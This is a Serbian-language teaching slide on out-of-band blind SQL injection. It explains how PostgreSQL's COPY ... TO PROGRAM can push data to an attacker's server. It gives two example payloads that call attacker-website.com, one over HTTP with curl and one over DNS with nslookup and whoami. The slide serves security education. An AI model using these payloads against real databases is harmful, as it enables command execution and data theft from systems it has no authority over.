

# 4d) Blind SQLi - Out-of-Band napadi
Koriste se alternativni (spoljašnji) kanali kako bi informacije iz baze podataka bile poslate napadaču
Alternativni kanali podrazumevaju server pod kontrolom napadača, gde bi se podaci slali putem HTTP, DNS ili sličnih protokola
Payload se kreira tako da baza podataka izvrši određenu akciju koja izaziva komunikaciju ka eksternom serveru napadača
Korišćenje COPY … FROM PROGRAM sintakse koja se koristi radi kopiranja podataka u zadatu tabelu
Primer payload-a koji koristi HTTP protokol može biti:
'; COPY users TO PROGRAM 'curl -X POST http://attacker-website.com/ --data-binary “@whoami”';--
Primer payload-a koji koristi DNS protokol:
'; COPY users TO PROGRAM 'nslookup $(whoami).attacker-website.com';--